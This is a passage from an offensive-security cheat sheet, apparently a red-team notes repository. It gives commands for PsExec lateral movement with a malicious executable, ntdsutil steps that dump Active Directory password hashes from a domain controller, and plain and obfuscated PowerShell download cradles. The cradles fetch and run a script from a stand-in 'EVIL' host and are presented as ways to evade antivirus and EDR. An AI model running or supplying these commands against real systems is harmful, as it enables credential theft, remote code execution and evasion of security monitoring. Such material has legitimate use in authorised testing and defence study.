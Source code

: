 # This will kill the PsExec session and leave the malicious executable on disk
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -d update.exe
```

## Windows Domain Controller Hash Harvesting

GOAL: Obtain ```NTDS.dit``` and SYSTEM registry hive data

```
C:\Users\RoseSecurity> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\ntds

Copying registry files...
Copying c:\ntds\registry\SYSTEM
Copying c:\ntds\registry\SECURITY
IFM media created successfully in c:\ntds
ifm: quit
ntdsutil: quit
```

## Payload Download Cradles: (https://github.com/VirtualAlllocEx)

This are different types of download cradles which should be an inspiration to play and create new download cradles to bypass AV/EPP/EDR in context of download cradle detections. Notice, removing or obfuscating signatures from your download cradle is only one piece of the puzzle to bypass an AV/EPP/EDR. Depending on the respective product you have to modify your payload which should be downloaded by the cradle to bypass API-Hooking, Callbacks, AMSI etc.

```
# not proxy aware cmd download cradles 

# default download cradle 
c:\WInDowS\sySTEM32\cmD.eXE   /c  PoWErSheLl  -nopROfi  -EXe  byPAsS  -wiNDOwsTy  HIDdEN -cOMMA  "IEX (New-Object Net.Webclient).downloadstring(\"http://EVIL/evil.ps1\")"
PoWErSheLl  -nopROfi  -EXe  byPAsS  -wiNDOwsTy  HIDdEN -cOMMA  "IEX (New-Object Net.Webclient).downloadstring(\"http://EVIL/evil.ps1\")"

# obfuscated v1
CMD> c:\wiNdoWs\sysTEM32\CmD  /c  pOWeRshell -WiNDOW  HIddEN -eXECUTI  BYpaSS  -nop  -CoMmanD   "(New-Object Net.WebClient).DownloadString('http://EVIL/evil.ps1')|.( ([String]''.Chars)[15,18,19]-Join'')"
CMD> pOWeRshell -WiNDOW  HIddEN -eXECUTI  BYpaSS  -nop  -CoMmanD   "(New-Object Net.WebClient).DownloadString('http://EVIL/evil.ps1')|.( ([String]''.Chars)[15,18,19]-Join'')"


[VICTIM]: PS C:\Users\Victim\Documents>